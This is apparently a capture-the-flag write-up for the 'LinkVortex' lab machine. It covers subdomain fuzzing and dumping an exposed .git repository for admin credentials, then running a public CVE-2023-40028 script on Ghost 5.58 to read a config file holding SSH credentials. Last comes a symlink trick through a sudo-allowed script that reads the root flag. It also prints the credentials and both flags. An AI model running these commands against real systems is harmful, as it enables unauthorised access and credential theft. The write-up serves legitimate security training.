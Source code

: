 ```yaml
---
sticker: lucide//external-link
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |

Let's visit the website:

![](images/Pasted%20image%2020250104153239.png)

We need to add `linkvortex.htb` to `/etc/hosts`:

![](images/Pasted%20image%2020250104153434.png)

Seems like a simple page, let's take a look at source code:


![](images/Pasted%20image%2020250104153824.png)

Nothing useful, but, we know this machine has `robots.txt` so, let's check it:

![](images/Pasted%20image%2020250104162318.png)

We found useful stuff, let's begin with fuzzing


## FUZZING
---

When we try to fuzz in the standard way, we encounter that we are unable to fuzz in this way: `http://URL/FUZZ`, so, i thought we need to fuzz for subdomains instead of directories like we always do, let's use the following ffuf command: 

```ad-hint

`ffuf -c -u http://TARGET_URL/ -H "Host: FUZZ.TARGET_URL" -w /path/to/wordlist.txt -fc 301`

#### Key points

- The -fc 301 flag filters out http 301 redirects, keeping results relevant.
- Subdomain enumeration can reveal hidden environments like `subdomain.linkvortex.htb`
```


Let's fuzz:

![](images/Pasted%20image%2020250104154221.png)

We found something interesting!

`dev.linkvortex.htb`


Also, we found `linkvortex.htb/ghost/#/signin`

Let's visit the page and start with reconnaissance

# RECONNAISSANCE
---
![](images/Pasted%20image%2020250104154412.png)

Let's use dirsearch on the `linkvortex.htb/ghost/#/signin` page, in order to find anything useful, we can use it in the following way:

```ad-hint

`python3 dirsearch.py -u linkvortex.htb -t 50 -i 200`

![](images/Pasted%20image%2020250104162434.png)

We found the same as before, we already know this website has `ghost`, if we deep in further, we find this page has `ghost 5.58`:

![](images/Pasted%20image%2020250104162522.png)
```


Nice, now, we can use a tool called `GitHack` to read the directories from the `dev.linkvortex.htb` subdomain, let's use it like this:

```ad-hint
`python3 GitHack.py -u http://dev.linkvortex.htb/.git/`


This will attempt to download a bunch of git files, after the process is done, we can find some interesting files such as the one located at:

`dev.linkvortex.htb/ghost/core/test/regression/api/admin`

![](images/Pasted%20image%2020250104163216.png)

We found an `authentication.test.js` file, let's read it: 

![](images/Pasted%20image%2020250104163311.png)

We found some credentials, since this is the admin api, we must think that the email is structured in the following way: `Username@linkvortex.htb`, so, our credentials would be: 

`admin@linkvortex.htb`:`OctopiFociPilfer45`
```

Let's log into the signin site we found:

![](images/Pasted%20image%2020250104163833.png)
# EXPLOITATION
---


Nice, we got initial access to the CMS, now, let's search for an exploit for this version, we know this site is running `ghost 5.58`:

```ad-hint

Exploit: [CVE-2023-40028](https://github.com/0xyassine/CVE-2023-40028/blob/master/CVE-2023-40028.sh)
```

For this version, we can find the `CVE-2023-40028` which states the following:

```ad-summary
CVE-2023-40028 affects Ghost, an open source content management system, where versions prior to 5.59.1 allow authenticated users to upload files that are symlinks. This can be exploited to perform an arbitrary file read of any file on the host operating system. It is recommended that site administrators check for exploitation of this issue by looking for unknown symlinks within Ghost's content/ folder. Version 5.59.1 contains a fix for this issue, and there are no known workarounds.

- CVE ID: CVE-2023-40028
- CVSS Score: 6.5 Medium
- Affected Software: Ghost versions before 5.59.1
- Fixed in Version: Ghost 5.59.1

```

So, we need an authenticated user in order to be able to use the exploit, how lucky of us, let's download it and use it in the following way:

```ad-hint

`./CVE-2023-40028.sh -u admin@linkvortex.htb -p OctopiFociPilfer45`

(We need to change the ghost url before using the script)

Once we've used it, we get the following:

![](images/Pasted%20image%2020250104164435.png)

We can now read files, after i read `/etc/passwd` file, nothing useful was in it, so, after a exhausting search, I found that at `/var/lib/config.production.json` some essential info was on it, which was the following:

![](images/Pasted%20image%2020250104165622.png)


```

We found some ssh credentials!: `bob@linkvortex.htb`:`fibber-talented-worth`

Let's log in and read the user flag:

![](images/Pasted%20image%2020250104165752.png)

![](images/Pasted%20image%2020250104165804.png)

User flag is: `5048fa21aa685472d4bb3b6dbf5e59d4`

Now, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---


### sudo -l


We can run sudo on the following:

![](images/Pasted%20image%2020250104165954.png)

Let's read the file to know what we're dealing with:

![](images/Pasted%20image%2020250104170040.png)

We can use the following in order to read root flag:

```ad-hint

1. `ln -s /root/root.txt hyh.txt`
2. `ln -s /home/bob/hyh.txt hyh.png`
3. `sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png`


### PoC

![](images/Pasted%20image%2020250104170945.png)

We were able to read the root flag, which is: `dd348008c17143e2472558713ca807f1`
```

Just like that, machine is done!


